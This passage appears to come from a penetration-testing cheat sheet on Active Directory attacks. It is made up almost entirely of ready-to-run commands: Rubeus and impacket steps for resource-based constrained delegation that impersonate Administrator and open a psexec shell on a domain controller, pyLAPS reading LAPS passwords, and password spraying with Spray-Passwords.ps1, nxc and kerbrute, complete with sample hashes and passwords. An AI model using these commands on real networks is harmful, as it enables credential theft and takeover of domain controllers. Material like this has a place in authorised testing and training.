 ```powershell

#We then use Rubeus.exe to hash our previously chosen password
Rubeus.exe hash /password:Summer2018!

#Then use Rubeus s4u module to get a service ticket and inject it with /ptt
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/DC01.corp.local /ptt
```
- From Linux, we can employ `impacket` and `rpcd.py` found on [tothi Github](https://github.com/tothi/rbcd-attack/)
```zsh
#Add computer account
impacket-addcomputer corp.local/alexa -dc-ip 192.168.167.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'Summer2018!'

#Add computer account to msDS-AllowedToActOnBehalfOfOtherIdentity
py /usr/share/linux-resources/rbcd-attack/rbcd.py -dc-ip 192.168.167.175 -t DC01 -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 corp.local\\alexa

#Get service ticket, this will get saved on disk
impacket-getST -spn cifs/DC01.corp.local resourced/attack\$:'Summer2018!' -impersonate Administrator -dc-ip 192.168.167.175

#Set ticket accordingly
export KRB5CCNAME=./Administrator.ccache

#Add IP of our target to hosts file
addhost 192.168.167.175 dc01.corp.local
#Use impacket-psexec to get a shell on the target
sudo impacket-psexec -k -no-pass DC01.corp.local -dc-ip 192.168.167.175
```

## LAPS
- If we have a user that has the ability to read LAPS passwords, we can use [pyLAPS](https://github.com/p0dalirius/pyLAPS) from our linux hosts to read them
```zsh
py pyLAPS.py --action get -d "corp.local" -u "alexa" -p "init12345" --dc-ip 192.168.223.122
```
- From a Windows host, follow the bloodhound instructions

# Abusing AD Authentication
## Password Spraying
- We can use `Spray-Passwords.ps1` to spray passwords. This script will automatically detect all domain users and spray passwords against them
```powershell
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

.\Spray-Passwords.ps1 -File passwords.txt -Admin
```
- We can also use `nxc` for password spraying against SMB
```zsh
nxc smb administrator.htb -u users -p passwords -d corp.com --continue-on-success
```
- Lastly we can use `kerbrute` to password spray against Kerberos
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
> [!WARNING]
> When using `kerbrute` on Windows instead of Linux make sure that the encoding of **usernames.txt** is _ANSI_. Use Notepad's _Save As_ functionality to change the encoding.
## Kerberos
